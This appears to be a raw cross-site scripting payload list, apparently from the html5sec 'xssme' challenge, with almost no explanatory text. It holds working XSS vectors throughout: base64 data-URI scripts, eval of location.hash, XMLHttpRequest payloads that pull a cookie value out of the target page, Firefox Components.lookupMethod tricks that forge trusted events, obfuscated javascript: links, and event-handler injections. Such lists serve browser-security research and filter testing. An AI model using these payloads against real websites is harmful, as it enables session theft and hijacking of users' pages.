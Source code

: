<textarea id=ta onfocus=%22write('<script>alert(1)</script>')%22 autofocus></textarea>">
<object data=%22data:text/html;base64,PHNjcmlwdD4gdmFyIHhociA9IG5ldyBYTUxIdHRwUmVxdWVzdCgpOyB4aHIub3BlbignR0VUJywgJ2h0dHA6Ly94c3NtZS5odG1sNXNlYy5vcmcveHNzbWUyJywgdHJ1ZSk7IHhoci5vbmxvYWQgPSBmdW5jdGlvbigpIHsgYWxlcnQoeGhyLnJlc3BvbnNlVGV4dC5tYXRjaCgvY29va2llID0gJyguKj8pJy8pWzFdKSB9OyB4aHIuc2VuZCgpOyA8L3NjcmlwdD4=%22>">
<script>function x(window) { eval(location.hash.substr(1)) }; open(%22javascript:opener.x(window)%22)</script>#var xhr = new window.XMLHttpRequest();xhr.open('GET', 'http://xssme.html5sec.org/xssme2', true);xhr.onload = function() { alert(xhr.responseText.match(/cookie = '(.*?)'/)[1]) };xhr.send();">

<hr>

%3Cscript%3Exhr=new%20ActiveXObject%28%22Msxml2.XMLHTTP%22%29;xhr.open%28%22GET%22,%22/xssme2%22,true%29;xhr.onreadystatechange=function%28%29{if%28xhr.readyState==4%26%26xhr.status==200%29{alert%28xhr.responseText.match%28/%27%28[^%27]%2b%29/%29[1]%29}};xhr.send%28%29;%3C/script%3E">
<iframe src=`http://xssme.html5sec.org/?xss=<iframe onload=%22xhr=new XMLHttpRequest();xhr.open('GET','http://html5sec.org/xssme2',true);xhr.onreadystatechange=function(){if(xhr.readyState==4%26%26xhr.status==200){alert(xhr.responseText.match(/'([^']%2b)/)[1])}};xhr.send();%22>`>">
<li><a target="x" href="xssme?xss=%3Cscript%3EaddEventListener%28%22DOMFrameContentLoaded%22,%20function%28e%29%20{e.stopPropagation%28%29;},%20true%29;%3C/script%3E%3Ciframe%20src=%22data:text/html,%253cscript%253eObject.defineProperty%28top,%20%27MyEvent%27,%20{value:%20Object,%20configurable:%20true}%29;function%20y%28%29%20{alert%28top.Safe.get%28%29%29;};event%20=%20new%20Object%28%29;event.type%20=%20%27click%27;event.isTrusted%20=%20true;y%28event%29;%253c/script%253e%22%3E%3C/iframe%3E">
<li><a target="x" href="xssme?xss=<script>var cl=Components;var fcc=String.fromCharCode;doc=cl.lookupMethod(top, fcc(100,111,99,117,109,101,110,116) )( );cl.lookupMethod(doc,fcc(119,114,105,116,101))(doc.location.hash)</script>#<iframe src=data:text/html;base64,PHNjcmlwdD5ldmFsKGF0b2IobmFtZSkpPC9zY3JpcHQ%2b name=ZG9jPUNvbXBvbmVudHMubG9va3VwTWV0aG9kKHRvcC50b3AsJ2RvY3VtZW50JykoKTt2YXIgZmlyZU9uVGhpcyA9ICBkb2MuZ2V0RWxlbWVudEJ5SWQoJ3NhZmUxMjMnKTt2YXIgZXZPYmogPSBkb2N1bWVudC5jcmVhdGVFdmVudCgnTW91c2VFdmVudHMnKTtldk9iai5pbml0TW91c2VFdmVudCggJ2NsaWNrJywgdHJ1ZSwgdHJ1ZSwgd2luZG93LCAxLCAxMiwgMzQ1LCA3LCAyMjAsIGZhbHNlLCBmYWxzZSwgdHJ1ZSwgZmFsc2UsIDAsIG51bGwgKTtldk9iai5fX2RlZmluZUdldHRlcl9fKCdpc1RydXN0ZWQnLGZ1bmN0aW9uKCl7cmV0dXJuIHRydWV9KTtmdW5jdGlvbiB4eChjKXtyZXR1cm4gdG9wLlNhZmUuZ2V0KCl9O2FsZXJ0KHh4KGV2T2JqKSk></iframe>">
<li><a target="x" href="xssme?xss=<script>find('cookie'); var doc = getSelection().getRangeAt(0).startContainer.ownerDocument; console.log(doc); var xpe = new XPathEvaluator(); var nsResolver = xpe.createNSResolver(doc); var result = xpe.evaluate('//script/text()', doc, nsResolver, 0, null); alert(result.iterateNext().data.match(/cookie = '(.*?)'/)[1])</script>">
<li><a target="x" href="xssme?xss=<script>function x(window) { eval(location.hash.substr(1)) }</script><iframe src=%22javascript:parent.x(window);%22></iframe>#var xhr = new window.XMLHttpRequest();xhr.open('GET', '.', true);xhr.onload = function() { alert(xhr.responseText.match(/cookie = '(.*?)'/)[1]) };xhr.send();">
Garethy Salty Method!<script>alert(Components.lookupMethod(Components.lookupMethod(Components.lookupMethod(Components.lookupMethod(this,'window')(),'document')(), 'getElementsByTagName')('html')[0],'innerHTML')().match(/d.*'/));</script>"> a(1)
a(1);
<a href="javascript&colon;\u0061&#x6C;&#101%72t&lpar;1&rpar;"><button>
 
2) <div onmouseover='alert&lpar;1&rpar;'>DIV</div>
 
3) <iframe style="position:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(1)">
 
4) <a href="jAvAsCrIpT&colon;alert&lpar;1&rpar;">X</a>
 
5) <embed src="http://corkami.googlecode.com/svn/!svn/bc/480/trunk/misc/pdf/helloworld_js_X.pdf"> ​
 